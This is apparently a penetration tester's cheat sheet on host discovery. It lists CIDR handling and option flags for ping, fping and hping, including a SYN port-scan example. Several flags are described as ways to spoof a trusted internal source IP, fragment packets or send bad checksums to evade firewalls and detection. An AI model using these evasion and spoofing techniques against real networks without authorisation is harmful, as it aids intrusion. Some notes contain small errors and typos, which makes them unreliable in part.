Subnetmask
0.0.0.0/0    = brute force on x1 ,x2,x3 and x4 start from 0 for all            
x1.0.0.0/8   = brute force on x1 and x2 and start from 0 for x2,x3,x4
x1.x2.0.0/16 = brute force on x3 and  x4 start from 0 for x3,x4
x1.x2.x3.0/24= brute force on x4 start from 0 for x4
```

### **`CIDR`** Is Network Devices& Hosts Range(Subnets) For the Company

**Tools To list Every IP in CIDR  :**`mapcidr`   **`mapcidr --cidr xx.xx.xx.xx/xx`**

## **`Host Discovery Tools`**

## **`ping IP`**

**`-I <interface>`** either interface name or address

- Subnet scan
    
     for(int i = 1; i < 254; i++) ; ping(192.168.1.i);
    speed
    
- Time stamp Options
    
    **`-T timestamp`** Set special IP timestamp options.  timestamp option may be either tsonly (only timestamps), tsandaddr (timestamps and addresses) or tsprespec host1 [host2 [host3 [host4]]] (timestamp prespecified hops).
    **`-D`**
           Print timestamp (unix time + microseconds as in gettimeofday) before each line.
    
- Firewall Options
    
    **`-i <interval>`** seconds between sending each packet
    
    **`-B IP`** Spoof Source IP of Pinging Packets to A trusted machine in internal network like some server or domain controler or firewall
    
    **`-s packetsize`**Specifies the number of data bytes to be sent. The default is 56, which translates into 64 ICMP data bytes when combined with the 8 bytes of ICMP header data.
    
    **`-t <ttl>`** define time to live
    

## **`fping IP`**

- Subnet scan
    
    **`fping subnet`**
    
    **`fping -f file.txt`**file.txt hosts file
    
- Process Control
    
    **`-C 999999999`**  Specific Speed Packet per  Sec
    
    **`-r 4`**  Specific Retries
    
- Time stamp Options
    
    **`-D`**
           Print timestamp (unix time + microseconds as in gettimeofday) before each line.
    
- Firewall Options
    
    **`-i <interval>`** seconds between sending each packet
    
    **`-S IP`**  OR **`--scr IP`** Spoof Source IP of Pinging Packets to A trusted machine in internal network like some server or domain controler or firewall
    
    **`--size packetsize`**Specifies the number of data bytes to be sent. The default is 56, which translates into 64 ICMP data bytes when combined with the 8 bytes of ICMP header data.
    
    **`--ttl <ttl>`** define time to live
    
    **`-R`**, --random random packet data (to foil link data compression)
    

# **`Old Stuff`**

### `hping ip`

## Process Control

**`-c N`** **`--count N`**     Ping packet count
**`-i uX`**  **`--interval uX`**  wait (X microseconds, for example -i u1000)
**`--fast`**      alias for -i u10000 (10 packets for second)
**`--faster`**    alias for -i u1000 (100 packets for second)
**`-I interface`**  Specify Interface

## Host Ping Types

  default mode     TCP (p80)
**`-0`**   **`--rawip`**      RAW IP mode
**`-1`**  **`--icmp`**     ICMP mode
**`-2`  `--udp`**     UDP mode

## Port Scan

---

**`--scan   1-30,70-90`** Specify port

**`--fin`** set FIN flag
**`-S`**  **`--syn`** set SYN flag
 **`--rst`** set RST flag
**`--push`** set PUSH flag
**`-A` `--ack`** set ACK flag
**`--urg`** set URG flag

 **`-X`  `--xmas`** set X unused flag (0x40)
**`-Y` `--yma`**s set Y unused flag (0x80)

EX: **`hpin3 --scan   1-30,70-90 -S www.target.host`**

## Firewall Options

**`-a ip`**     spoof source address

**`--rand-source`** random source address mode. see the man.
**`--baseport port`** base source port 

**`-w size`** Window Specific Size (Some Data in header For Packets(default 64))

**`--ttl ttl`** To Evade TTL Firewall Filtering (default 64)
**`-O  N`** set fake tcp data offset (instead of tcphdrlen / 4)
**`-e “AnyData”`** add 'signature' To Evade signature Detecion
**`-b`** **`--badcksum`** (try to) send packets with a bad IP checksum To Evade some ACL Recording and Prevention  Process
**`-f`**  split packets in more frag. (may pass weak acl)
**`-m SIZE`  `--mtu SIZE`**  set virtual mtu, implies --frag if packet size > mtu
**`-d SIZE`**   **`--data SIZE`** Added Size to ping packet(default is 0)